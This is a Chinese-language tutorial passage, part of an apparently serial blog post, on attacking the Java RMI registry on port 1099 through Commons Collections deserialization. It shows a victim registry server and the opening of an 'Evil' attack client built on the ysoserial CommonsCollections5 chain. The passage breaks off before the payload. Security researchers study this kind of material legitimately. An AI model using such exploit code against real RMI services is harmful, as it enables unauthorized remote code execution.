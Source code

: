 《Java RMI入门(5)》
http://scz.617.cn:8/network/202003241127.txt

本篇讲解1099/TCP周知端口所存在的反序列化漏洞。系列(1)中写过，远程绑定不可
能成功，对源IP有检查，分离周知端口与动态端口到不同主机的尝试失败。所以第一
次看到"ysoserial/RMIRegistryExploit"，我是懵X的，它在远程绑定。跟KINGX讨论
了一下我的困惑，他说对这块也有些迷糊，于是我决定调试一番。由于某些测试用例
涉及"Commons Collections反序列化漏洞"，就先写了系列(5)。现在开始填系列(6)
的坑。并未完结，迭代补齐。

如果从系列(1)追剧一样地追到了系列(6)，应该跟我差不多，开始入门RMI了。

☆ 攻击RMI Registry

本节victim是RMI周知端口，动态端口作为攻击行为的客户端出场。

1) RMIRegistryServer.java

从RMI架构上讲，这是RMI周知端口。

```java
/*
 * javac -encoding GBK -g RMIRegistryServer.java
 * java -Djava.rmi.server.hostname=192.168.65.23 RMIRegistryServer 1099
 */
import java.rmi.registry.*;

public class RMIRegistryServer
{
    public static void main ( String[] argv ) throws Exception
    {
        int port    = Integer.parseInt( argv[0] );
        LocateRegistry.createRegistry( port );
        System.in.read();
    }
}
```

2) EvilRMIRegistryClientWithBadAttributeValueExpException.java

本例所用攻击链有一部分对应"ysoserial/CommonsCollections5"。

从RMI架构上讲，这是RMI动态端口，参看"8.2) HelloRMIDynamicServer.java"。

```java
/*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar" EvilRMIRegistryClientWithBadAttributeValueExpException.java
 */
import java.io.*;
import java.util.*;
import java.lang.reflect.*;
import java.rmi.Remote;
import java.rmi.registry.*;
import javax.management.BadAttributeValueExpException;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;

/*
 * 从EvilClientWithBadAttributeValueExpException.java修改而来
 */
public class EvilRMIRegistryClientWithBadAttributeValueExpException
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String          addr        = argv[0];
```